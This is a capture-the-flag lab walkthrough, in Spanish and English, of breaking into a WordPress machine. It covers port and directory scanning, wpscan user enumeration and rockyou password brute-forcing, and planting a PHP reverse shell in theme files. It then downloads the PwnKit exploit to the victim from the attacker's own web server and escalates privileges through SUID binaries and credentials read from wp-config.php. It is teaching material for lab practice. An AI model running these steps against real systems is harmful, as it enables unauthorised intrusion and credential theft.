   
Iniciamos la VPN
![[/Untitled 50.png|Untitled 50.png]]
![[/Untitled 1 9.png|Untitled 1 9.png]]
Iniciamos la máquina
![[/Untitled 2 10.png|Untitled 2 10.png]]
Comprobamos conectividad con la máquina
![[/Untitled 3 10.png|Untitled 3 10.png]]
Comenzamos con un escaneo para ver los puertos y servicios que están corriendo  
sudo nmap -p- --open -sS --min-rate 5000 -v -n -sV -Pn <IP_VÍCTIMA>  
[](https://www.notion.soundefined)
Vemos que esta corriendo un servicio web por el puerto 80(http) y un servicio ssh por el puerto 4512
Usamos la herramienta whatweb para ver que que podemos recopilar de la web antes de visitarla
whatweb -v [http://](http://10.10.181.113/)<IP_VÍCTIMA>
![[/Untitled 4 9.png|Untitled 4 9.png]]
![[/Untitled 5 9.png|Untitled 5 9.png]]
![[/Untitled 6 9.png|Untitled 6 9.png]]
Visitamos la web
![[/Untitled 7 9.png|Untitled 7 9.png]]
Vamos a hacer fuzzing para ver que directorios podemos encontrar
ffuf -u [http://10.10.214.40/FUZZ](http://10.10.214.40/FUZZ) -w directory-list-lowercase-2.3-big.txt -e .php,.html,.txt,.js
![[/Untitled 8 9.png|Untitled 8 9.png]]
![[/Untitled 9 9.png|Untitled 9 9.png]]
En /wp-includes encontramos
![[/Untitled 10 9.png|Untitled 10 9.png]]
  
  
En /wp-admin y /wp-login.php encontramos
![[/Untitled 11 9.png|Untitled 11 9.png]]
En /hidden encontramos
![[/Untitled 12 8.png|Untitled 12 8.png]]
  
Al encontrarnos con el CMS Wordpress podemos usar wpscan
NOTA:WPScan es una herramienta de seguridad especializada en escanear vulnerabilidades en sitios web que utilizan WordPress. Es ampliamente utilizada por profesionales de la seguridad, pentesters y administradores de sistemas para identificar posibles problemas de seguridad y vulnerabilidades en sus instalaciones de WordPress. WPScan es preinstalada en distribuciones de Linux orientadas a la seguridad, como Kali Linux.
  
Con wpscan hacemos una enumeración de usuarios y plugins vulnerables
❯ wpscan --url [http://10.10.214.40](http://10.10.214.40/) --enumerate u vp
![[/Untitled 13 8.png|Untitled 13 8.png]]
Encontramos los siguientes usuarios
![[/Untitled 14 7.png|Untitled 14 7.png]]
Ahora hacemos fuerza bruta a los usuarios con wpscan
❯ wpscan --url [http://10.10.214.40](http://10.10.214.40/) --passwords Passwords/rockyou.txt
![[/Untitled 15 6.png|Untitled 15 6.png]]
Encontramos la siguiente contraseña
![[/Untitled 16 6.png|Untitled 16 6.png]]
Probamos el usuario y la contraseña para ver si es accesible en el login que encontramos haciendo fuzzing
  
![[/Untitled 17 6.png|Untitled 17 6.png]]
Tenemos acceso con estas credenciales  
  
![[/Untitled 18 6.png|Untitled 18 6.png]]
  
Nos dirigimos al apartado Appearance
![[/Untitled 19 6.png|Untitled 19 6.png]]
  
En Header
![[/Untitled 20 6.png|Untitled 20 6.png]]
  
Podemos editar el header.php y añadirle una reverse shell en php para obtener acceso actualizando el home de la web
![[/Untitled 21 6.png|Untitled 21 6.png]]
  
![[/Untitled 22 6.png|Untitled 22 6.png]]
  
Nos ponemos a la escucha en el puerto asignado en la reverse shell (4444)
![[/Untitled 23 6.png|Untitled 23 6.png]]
  
Recargamos la web y obtenemos el acceso  
  
![[/Untitled 24 6.png|Untitled 24 6.png]]
TRATAMIENTO TTY→[https://invertebr4do.github.io/tratamiento-de-tty/#](https://invertebr4do.github.io/tratamiento-de-tty/#)
  
Hacemos una búsqueda de binarios con permisos SUID
![[/Untitled 25 6.png|Untitled 25 6.png]]
Sabemos que existe una vulnervilidad con este binario
![[/Untitled 26 6.png|Untitled 26 6.png]]
Nos descargamos el PwnKit en nuestra maquina  
  
`curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit`
![[/Untitled 27 6.png|Untitled 27 6.png]]
Montamos un servidor en python para acceder desde la reverse shell y descargarse el PwnKit
python3 -m http.server 8000
![[/Untitled 28 6.png|Untitled 28 6.png]]
Nos descargamos el Pwnkit desde la reverse shell
Para poder descargarlo lo hacemos desde /tmp porque tenemos permisos de escritura
curl -o PwnKit [http://10.9.2.24:8000/PwnKit](http://10.9.2.24:8000/PwnKit)
![[/Untitled 29 6.png|Untitled 29 6.png]]
Ejecutamos los comandos que nos indican en la documentación de github
![[/Untitled 30 6.png|Untitled 30 6.png]]
Ya somos root
Entregamos las flags
![[/Untitled 31 6.png|Untitled 31 6.png]]
![[/Untitled 32 6.png|Untitled 32 6.png]]
---
  
SECOND WAY TO ESCALATE PRIVILEGES
Once we have access to the administrator panel, we can go to the Appearance editor section.
  
![[/Untitled 33 6.png|Untitled 33 6.png]]
We modify this file and verify that we have remote command execution, as it interprets PHP
![[/Untitled 34 6.png|Untitled 34 6.png]]
We navigate to the modified file from the browser
![[/Untitled 35 6.png|Untitled 35 6.png]]
We have remote command execution. Let's modify the file adding a reverse shell
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
![[/Untitled 36 5.png|Untitled 36 5.png]]
We start listening on the port assigned in the reverse shell(4444)
  
![[/Untitled 37 4.png|Untitled 37 4.png]]
Now we will reload the 404.php file from the web, and the reverse shell will execute
<IP_VICTIMA>/wp-content/themes/twentyfifteen/404.php
![[/Untitled 38 4.png|Untitled 38 4.png]]
/We search for binaries with SUID permissions
![[/Untitled 39 3.png|Untitled 39 3.png]]
We search GTFObins for the find binary with SUID permissions
![[/Untitled 40 3.png|Untitled 40 3.png]]
![[/Untitled 41 2.png|Untitled 41 2.png]]
We execute the command
![[/Untitled 42 2.png|Untitled 42 2.png]]
---
THIRD WAY TO ESCALATE PRIVILEGES
Once we have the reverse shell, we access /var/www/html
NOTE:The directory /var/www/html in Linux systems is commonly used to store files and data related to web content served by the HTTP server.
![[/Untitled 43 2.png|Untitled 43 2.png]]
cat wp-config.php
![[/Untitled 44 2.png|Untitled 44 2.png]]
Found the following
![[/Untitled 45 2.png|Untitled 45 2.png]]
  
We change sessions
![[/Untitled 46 2.png|Untitled 46 2.png]]
Now we can obtain the user flag
![[/Untitled 47 2.png|Untitled 47 2.png]]
echo "RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==" | base64 -d
![[/Untitled 48 2.png|Untitled 48 2.png]]
Privilege Escalation
![[/Untitled 49 2.png|Untitled 49 2.png]]
We search GTFOBins for ftp
![[/Untitled 50 2.png|Untitled 50 2.png]]
![[Untitled 51.png]]
We execute the commands
![[Untitled 52.png]]
We obtain the root flag
![[Untitled 53.png]]